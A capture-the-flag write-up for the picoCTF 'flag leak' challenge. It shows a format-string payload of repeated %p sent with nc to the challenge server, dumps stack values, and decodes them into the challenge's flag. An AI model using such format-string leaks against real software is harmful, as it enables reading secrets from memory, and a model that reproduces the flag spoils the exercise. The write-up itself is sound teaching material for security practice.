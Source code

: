 # flag leak

### Description
> Story telling class 1/2

### Solution
The bug is `Format String Bug` , which read a value in the stack.
The value of flag is stored in stack, you can get the flag.

```
$ nc saturn.picoctf.net 51466
Tell me a story and then I'll tell you one >> %p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
Here's a story -
0xffe7c4700xffe7c4900x80493460x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x2570250x6f6369700x7b4654430x6b34334c0x5f676e310x67346c460x6666305f0x3474535f0x645f6b630x306237390x7d3439640xfbad20000xf1a82a00(nil)0xf7f119900x804c0000x8049410(nil)0x804c0000xffe7c5580x80494180x20xffe7c6040xffe7c610(nil)0xffe7c570(nil)(nil)0xf7d07ee5
```

`picoCTF{` is `7b4654436f636970` in ASCII, so you look for it.
Note that it is little edian.

Therefore,

```
0x7b4654430x6b34334c0x5f676e310x67346c460x6666305f0x3474535f0x645f6b630x306237390x7d343964
```

Flag is `picoCTF{L34k1ng_Fl4g_0ff_St4ck_d97b0d94}`

### Writer
[yu1hpa](https://twitter.com/yu1hpa)

